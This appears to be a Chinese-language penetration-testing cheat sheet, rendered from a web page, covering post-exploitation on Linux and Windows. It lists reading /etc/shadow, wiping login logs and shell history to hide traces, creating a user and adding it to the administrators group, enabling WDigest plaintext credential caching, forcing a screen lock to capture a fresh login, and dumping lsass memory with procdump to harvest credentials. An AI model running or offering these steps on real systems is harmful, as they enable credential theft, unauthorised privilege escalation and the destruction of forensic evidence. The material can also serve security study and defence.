 #### 数据收集

```
/etc/passwd
/etc/shadow
```

#### 清理痕迹

```
echo > /var/log/wtmp
echo > /var/log/btmp
echo > /var/log/lastlog
history -cw
```

## Window

#### 基本命令

```
dir                                        //显示当前目录下内容
ren                                        //文件或目录重命名
type                                       //查看文本文件内容
md                                         //创建目录
rd                                         //删除目录
copy                                       //复制文件
move                                       //移动文件
del                                        //删除文件 [/f强制删除]
cls                                        //清屏
chcp                                       //查看或修改窗口字符集 [65001-utf8,936-GBK中文简体]
whoami                                     //显示用户名
net user name *                            //修改用户密码
net user                                   //查看存在用户账号
net user name                              //查看当前用户信息
net user name password /add                //创建用户
net localgroup administrators name /add    //提升权限
net user name /delete                      //删除用户
systeminfo                                 //当前计算机的综合信息
tasklist                                   //显示当前运行的进程信息 [/svc显示进程主持的服务]
taskkill /pid num                          //结束进程 [/f强行终止/t由此启动的子进程]
ipconfig /flushdns                         //清除本地DNS缓存
```

#### 数据收集

```
# 修改注册表开启/关闭Wdigest Auth
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
rundll32 user32.dll,LockWorkStation                         #强制锁屏,使其重新登录
procdump.exe -accepteula -ma lsass.exe lsass.dmp            #导出内存文件lsass.dmp
```
